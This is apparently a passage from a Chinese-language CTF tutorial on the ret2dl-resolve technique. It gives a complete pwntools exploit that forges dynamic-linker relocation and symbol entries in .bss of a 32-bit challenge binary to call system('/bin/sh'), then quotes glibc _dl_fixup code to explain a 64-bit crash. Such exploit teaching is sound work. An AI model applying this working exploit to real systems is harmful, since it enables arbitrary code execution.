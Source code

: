 ```python
from pwn import *
context(arch='i386', os='linux', log_level='debug')
p    = process('./main_partial_relro_32')
elf    = ELF('./main_partial_relro_32')

dl            = 0x08048370
STRTAB        = 0x0804826C
SYMTAB        = 0x080481CC
JMPREL        = 0x08048324

bss_addr    = elf.bss()
read_plt    = elf.plt['read']
vuln_addr    = elf.symbols['vuln']
strlen_plt    = elf.plt['strlen']
strlen_got    = elf.got['strlen']

p.recvuntil('Welcome to XDCTF2015~!\n')

# 需要在bss段写入的数据
payload    = p32(strlen_got) + p32((int((bss_addr + 0x34 - SYMTAB) / 0x10) << 8) | 0x07)                                # 伪造JMPREL
payload    += b'a' * (0x34 - 8) + p32(bss_addr + 0x34 + 0x10 - STRTAB) + p32(0) + p32(0) + p8(0x12) + p8(0) + p16(0)    # 伪造SYMTAB
payload    += b'system\x00/bin/sh\x00'                                                                                    # system和/bin/sh字符串

# 往bss中写入伪造数据
p.send(b'a' * 112 + p32(read_plt) + p32(vuln_addr) + p32(0) + p32(bss_addr) + p32(len(payload)))
p.send(payload)

# 调用strlen的plt的第二部分去重定向strlen
p.send(b'a' * 112 + p32(dl) + p32(bss_addr - JMPREL) + p32(vuln_addr) + p32(bss_addr + 0x34 + 0x10 + 0x7))

p.interactive()
```

#### 64位

[main_partial_relro_64](./elf/main_partial_relro_64)
我们发现，在设置`ndx`为0的时候，已经超出了能够正确读取的地址。
我们观察`_dl_fixup`中让我们payload崩溃的部分

```C
if (__builtin_expect (ELFW(ST_VISIBILITY) (sym->st_other), 0) == 0)
{
    const struct r_found_version *version = NULL;
    if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL)
    {
        const ElfW(Half) *vernum =
        (const void *) D_PTR (l, l_info[VERSYMIDX (DT_VERSYM)]);
        ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;
        version = &l->l_versions[ndx];
        if (version->hash == 0)
            version = NULL;
    }
    // ...
}
```
